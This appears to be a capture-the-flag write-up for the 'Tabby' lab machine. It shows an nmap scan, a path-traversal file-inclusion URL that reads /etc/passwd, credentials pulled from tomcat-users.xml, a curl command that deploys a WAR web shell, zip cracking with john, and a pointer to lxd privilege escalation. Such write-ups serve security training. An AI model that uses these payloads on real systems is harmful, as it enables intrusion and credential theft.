







# tabby


## nmap

PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
|
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
1113/tcp filtered ltp-deepspace
1244/tcp filtered isbconference1
2121/tcp filtered ccproxy-ftp
5811/tcp filtered unknown
6969/tcp filtered acmsoda
8080/tcp open     http           Apache Tomcat
|http-title: Apache Tomcat


## web

- There are 2 ports hosting services
  - web server at port 80
  - apache tomcat server at port 8080

- we can use local file inclusion at port 80 with address "http://megahosting.htb/news.php?file=../../../../etc/passwd" 
- we can get credentials from tomcat-users.xml




#### credentials

```
tomcat	:	$3cureP4s5w0rd123!
```


## tomcat

- we have to deploy a war file with shell in it
- but as we cannot tomcat manager access from remote machine due to restriction we have to use tomcat api



```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' -T "cmdjsp.war" "http://10.10.10.194:8080/manager/text/deploy?path=/myapp"
```


- now we got some type of shell we can use it to get reverse shell




## enumeration

- found a encrypted zip file in the files directory




- using john to decrypt it




##### credential

```
zip		admin@it
ash:admin@it
```





## privesc

- we got a shell as user ash
- now for privilege escalation we will run linpeas




- we are in lxd group as user ash we can use it to privesc

```
https://www.hackingarticles.in/lxd-privilege-escalation/
```

